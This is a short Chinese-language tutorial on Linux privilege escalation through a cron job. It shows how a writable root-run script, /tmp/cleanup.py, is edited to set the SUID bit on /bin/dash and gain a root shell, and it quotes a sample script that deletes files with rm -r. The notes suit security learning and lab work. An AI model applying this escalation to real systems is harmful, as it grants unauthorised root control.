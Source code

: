 Cron Jobs 计划任务 通过 /etc/crontab 文件，可以设定系统定期执行的任务。

crontab 文件只能是root权限 进行编辑，我们得到一个非root权限的远程登录用户的时候，查看/etc/crontab 内容文件，发现存在 

![img](../acess/wps1-1619615055030.jpg) 

每两分钟执行一次文件 ，找到 /tmp/cleanup.py 

```python
#!/usr/bin/env python
import os
import sys
try:
       os.system('rm -r  /home/moonteam/cleanup/*')
except:
	sys.exit()
```

两分钟执行一次文件，删除cleanup目录下全部文件

![image-20210428211759322](../acess/image-20210428211759322.png) 

 查看权限 

```bash
ls -l /tmp/cleanup.py
```

修改内容

```bash
os.system('chmod u+s /bin/dash') 
```

把 /bin/dash设置SUID权限  运行之后就会得到 root权限

使用命令dash 

![image-20210428212312272](../acess/image-20210428212312272.png) 
